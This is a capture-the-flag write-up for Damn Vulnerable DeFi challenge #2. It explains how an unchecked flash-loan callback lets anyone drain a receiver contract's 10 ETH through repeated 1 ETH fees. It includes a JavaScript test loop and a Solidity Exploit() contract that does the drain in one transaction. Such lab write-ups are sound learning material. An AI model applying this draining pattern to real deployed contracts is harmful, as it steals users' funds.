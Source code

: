 ## What is our mission
There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.

A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.

Take all ETH out of the user’s contract. If possible, in a single transaction.

<br/>

## What are the smart contracts 
- **`NaiveReceiverLenderPool.sol`**: smart contract that includes **`flashLoan(...)`** function
- **`FlashLoanReceiver.sol`**: smart contract that includes **`onFlashLoan(...)`** function

<br/>


## Solution 

**1.** **`NaiveReceiverLenderPool.sol`** contracts **`flashLoan(...)`** function
``` solidity
// NaiveReceiverLenderPool.sol

function flashLoan(
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external returns (bool) {
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 balanceBefore = address(this).balance;

        // Transfer ETH and handle control to receiver
        SafeTransferLib.safeTransferETH(address(receiver), amount);
        if(receiver.onFlashLoan(
            msg.sender,
            ETH,
            amount,
            FIXED_FEE,
            data
        ) != CALLBACK_SUCCESS) {
            revert CallbackFailed();
        }

        if (address(this).balance < balanceBefore + FIXED_FEE)
            revert RepayFailed();

        return true;
    }
```

**2.** **`FlashLoanReceiver.sol`** contracts **`onFlashLoan(...)`** function

``` solidity
// FlashLoanReceiver.sol

function onFlashLoan(
        address,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata
    ) external returns (bytes32) {
        assembly { // gas savings
            if iszero(eq(sload(pool.slot), caller())) {
                mstore(0x00, 0x48f5c3ed)
                revert(0x1c, 0x04)
            }
        }
        
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 amountToBeRepaid;
        unchecked {
            amountToBeRepaid = amount + fee;
        }

        _executeActionDuringFlashLoan();

        // Return funds to pool
        SafeTransferLib.safeTransferETH(pool, amountToBeRepaid);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    // Internal function where the funds received would be used
    function _executeActionDuringFlashLoan() internal { }
```

**3.** The vulnarability cames from,  **`FlashLoanReceiver.sol`** contract.

**`onFlashLoan(...)`** function is triggered from `NaiveReceiverLenderPool.sol` when **`flashLoan(...)`** is called.



⚠️ But **`onFlashLoan(...)`** function doesn't check Who has called **`flashLoan(...)`** function.

This means anybody who call **`flashLoan(...)`** function can pass  **`FlashLoanReceiver.sol`** contract as a `receiver` paremether to **`flashLoan(...)`** function. This will trigger **`onFlashLoan(...)`** function inside **`FlashLoanReceiver.sol`**.

And **`FlashLoanReceiver`** will pay transection fee until be out of money. 😥😥😥

<br/>

Here how you can do it

```js
// test/naive-receiver/naive-receiver.challenge.js

it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
               
        const ETH = await pool.ETH();
        
        for (let i = 0; i < 10; i++) 
        {    
            await pool.flashLoan(receiver.address, ETH, ETHER_IN_POOL, "0x");   
        }        
    });
```
As you can see, we have send 10 transection. But if you want to do this challenge **in single transection**, you will need to code smart contract.

<br/><br/>


To solve this, create a new file in side **`contracts/naive-receiver`** called **`NaiveReceiver_SolutionCode.sol`** 

``` solidity
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/interfaces/IERC3156FlashLender.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";


contract NaiveReceiver_SolutionCode
{
    // Constant variables
    address private constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;
    uint256 private constant Amount = 1 ether; 

    // Immutable variables
    IERC3156FlashLender private immutable pool;
    IERC3156FlashBorrower private immutable receiver;

    // constructor
    constructor(address _pool, address _receiver) 
    {
        pool = IERC3156FlashLender(_pool);
        receiver = IERC3156FlashBorrower(_receiver);
    }

    
    function Exploit() external
    {
        for (uint i = 0; i < 10; i++) 
        {
            pool.flashLoan(receiver, ETH, Amount, "0x");    
        }
    }
}
```
Your contracts will be compiled, when you run the test.

<br/>

Then you can go to test file and use this code: 

```js
// test/unstoppable/unstoppable.challenge.js

it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
               
        //Location of your compiled contract data. If you are fallowing this solition, copy bellow
        const compiled_data = require("../../artifacts/contracts/naive-receiver/NaiveReceiver_SolutionCode.sol/NaiveReceiver_SolutionCode.json");

        const abi = compiled_data.abi;
        const bytecode = compiled_data.bytecode;
    
        const factory = new ethers.ContractFactory(abi, bytecode, deployer);

        const NaiveReceiver_SolutionCode = await factory.deploy(pool.address, receiver.address)

        await NaiveReceiver_SolutionCode.Exploit();
    });
```



<br/>

## How could this exploit be prevented ?
**Share your ideas with me :)**


<br/>


## How to test it
got to ➡️ [**Damn Vulnerable Defi - Chalange #2**](https://www.damnvulnerabledefi.xyz/challenges/2.html). Clone the repository as mentioned and,

put [**basic solution code**](Basic.Solution.md) to his place 

/or

put [**single transection solution code**](Single.Transection.Solution.md) to his place

Then you can just type **`npm run naive-receiver`** 

